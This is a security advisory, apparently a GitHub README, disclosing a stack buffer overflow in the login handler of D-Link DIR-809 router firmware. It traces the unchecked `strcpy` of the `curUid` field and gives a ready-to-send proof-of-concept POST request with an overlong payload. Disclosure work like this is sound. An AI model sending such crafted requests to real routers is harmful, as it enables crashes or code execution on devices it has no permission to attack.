


# D-Link DIR809 Vulnerability

The Vulnerability is in page `/fromLogin` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `sub_8003183C` ( page `/fromLogin` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of the key "curUid" in the http post request which is completely under the attacker's control. 
2. The string `v4` obtained from user is then passed to `sub_800FE9CC` as the third argument. 
3. In the function `sub_800FE9CC`, argument `a3` is copied onto the stack using `strcpy` without any check. So we can make the stack buffer overflow in `v8`. (See the second figure below. )






## PoC

``` 
POST /formLogin.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 154
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/index.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=HQLFFU3LE1
Connection: close

curTime=1620541879564&curUid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&FILECODE=&VERIFICATION_CODE=&user_name=admin&loginpwd=4DD9824117635539BF66A03AB80A35FC&VER_CODE=
```

